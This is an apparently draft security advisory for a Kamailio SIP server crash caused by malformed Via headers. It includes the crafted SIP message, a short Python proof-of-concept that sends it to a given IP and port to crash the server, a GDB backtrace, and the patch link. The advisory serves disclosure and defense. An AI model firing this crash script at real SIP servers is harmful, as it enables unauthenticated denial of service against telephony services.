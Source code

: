 # Core segmentation fault crash in Kamailio related to Via header processing, denial of service possible

- Authors:
    - Henning Westerholt <hw at skalatan.de>
- Fixed versions: Kamailio v5.1.4 and v5.0.7
- References: CVE-2018-XXXX
- Kamailio Security Advisory: https://www.kamailio.org/w/2018/03/TODO/
- Tested vulnerable versions: 5.1, 4.0, git master
- Timeline:
    - Report date: 2018-06-03
    - Kamailio patch: 2018-06-03
    - Kamailio release with patch: 2018-06-XX
    - Security advisory: 2018-06-XX

## Description

A specially crafted SIP message with several invalid `Via` headers causes a segmentation fault and crashes Kamailio. The reason is missing input validation in the `crcitt_string_array` core function for calculating a CRC hash for To tags.  An additional error is present in the `check_via_address` core function, this function also misses input validation.

## Impact

Abuse of this vulnerability leads to denial of service in Kamailio. Further research may show that exploitation leads to remote code execution. This vulnerability is rather old and will probably also apply to older versions of Kamailio and maybe even OpenSER.

## How to reproduce the issue

The following SIP message with several invalid `Via` header can be used to reproduce the vulnerability:


```
INVITE sip:0 SIP/2.0
To: 0
Viaa: SIP/2.0/UDP
V
Via:
Via: SIP/2.0/UDP :]
```

You can use this python script to reproduce the crash:

```
#!/usr/bin/env python
import socket
import sys

for _ in range(2):
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.connect((sys.argv[1], int(sys.argv[2])))

    msg = "INVITE sip:0 SIP/2.0\n" \
        "To: 0\n" \
        "Viaa: SIP/2.0/UDP\n" \
        "V\n" \
        "Via:\n" \
        "Via: SIP/2.0/UDP :]\n" \
        "\r\n"
    sock.sendall(msg)
```

Run using:

```
python crash.py <ip> <port>
```

The expected result is a crash in Kamailio.

Notes: 

- authentication is not required
- crash happens in the first module that tries to construct a SIP reply caused by the bogus message
- SIP extension does not need to exist
- Message can be sent over TCP or UDP

### GDB backtrace result

An example for an backtrace caused by this crash in GDB:

```
Program received signal SIGSEGV, Segmentation fault.
0x00000000004e93ee in crcitt_string_array (dst=0x7ffff6373961 <sl_tag_buf+33> "", src=0x7fffffffaa20, size=2) at core/crc.c:239
239                             ccitt = UPDCIT( *c, ccitt );
(gdb) bt
#0  0x00000000004e93ee in crcitt_string_array (dst=0x7ffff6373961 <sl_tag_buf+33> "", src=0x7fffffffaa20, size=2) at core/crc.c:239
#1  0x00007ffff6162309 in calc_crc_suffix (msg=0x7ffff72c37c8, tag_suffix=0x7ffff6373961 <sl_tag_buf+33> "") at ../../core/tags.h:55
#2  0x00007ffff6162f5c in sl_reply_helper (msg=0x7ffff72c37c8, code=500, reason=0x7ffff63739e0 <err_buf> "I'm terribly sorry, server error occurred (1/SL)", tag=0x0) at sl_funcs.c:166
#3  0x00007ffff61644c3 in sl_send_reply (msg=0x7ffff72c37c8, code=500, reason=0x7ffff63739e0 <err_buf> "I'm terribly sorry, server error occurred (1/SL)") at sl_funcs.c:304
#4  0x00007ffff6164ca7 in sl_reply_error (msg=0x7ffff72c37c8) at sl_funcs.c:362
#5  0x00007ffff6168245 in w_sl_reply_error (msg=0x7ffff72c37c8, str=0x0, str2=0x0) at sl.c:233
#6  0x000000000043966a in do_action (h=0x7fffffffd120, a=0x7ffff7290970, msg=0x7ffff72c37c8) at core/action.c:1067
#7  0x0000000000445e1d in run_actions (h=0x7fffffffd120, a=0x7ffff7290970, msg=0x7ffff72c37c8) at core/action.c:1565
#8  0x00000000004395d9 in do_action (h=0x7fffffffd120, a=0x7ffff72919b8, msg=0x7ffff72c37c8) at core/action.c:1058
#9  0x0000000000445e1d in run_actions (h=0x7fffffffd120, a=0x7ffff728bef0, msg=0x7ffff72c37c8) at core/action.c:1565
#10 0x00000000004360c5 in do_action (h=0x7fffffffd120, a=0x7ffff72ac508, msg=0x7ffff72c37c8) at core/action.c:691
#11 0x0000000000445e1d in run_actions (h=0x7fffffffd120, a=0x7ffff72ac098, msg=0x7ffff72c37c8) at core/action.c:1565
#12 0x00000000004360c5 in do_action (h=0x7fffffffd120, a=0x7ffff7287ba8, msg=0x7ffff72c37c8) at core/action.c:691
#13 0x0000000000445e1d in run_actions (h=0x7fffffffd120, a=0x7ffff7282420, msg=0x7ffff72c37c8) at core/action.c:1565
#14 0x00000000004465c2 in run_top_route (a=0x7ffff7282420, msg=0x7ffff72c37c8, c=0x0) at core/action.c:1654
#15 0x000000000058908d in receive_msg (buf=0xa56a60 <buf> "INVITE sip:0 SIP/2.0\nTo: 0\nViaa: SIP/2.0/UDP\nV\nVia:\nVia: SIP/2.0/UDP :]", len=71, rcv_info=0x7fffffffd740) at core/receive.c:331
#16 0x000000000046ca74 in udp_rcv_loop () at core/udp_server.c:554
#17 0x00000000004253d1 in main_loop () at main.c:1432
#18 0x000000000042d631 in main (argc=17, argv=0x7fffffffdc68) at main.c:2650
```

This security issue was discovered through extensive SIP message fuzzing with [afl](http://lcamtuf.coredump.cx/afl/) and an internal toolset.

## Solutions and recommendations

Apply the patch at <https://github.com/kamailio/kamailio/commit/ad68e402ece8089f133c10de6ce319f9e28c0692> or make use of a release that includes that patch (e.g. 5.1.4 or 5.0.7).

## About Henning Westerholt

[Henning Westerholt]<https://www.kamailio.org/w/henning-westerholt/> is a core developer of Kamailio since 2007. He provides consulting services for Kamailio in the performance, reliability and security areas.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

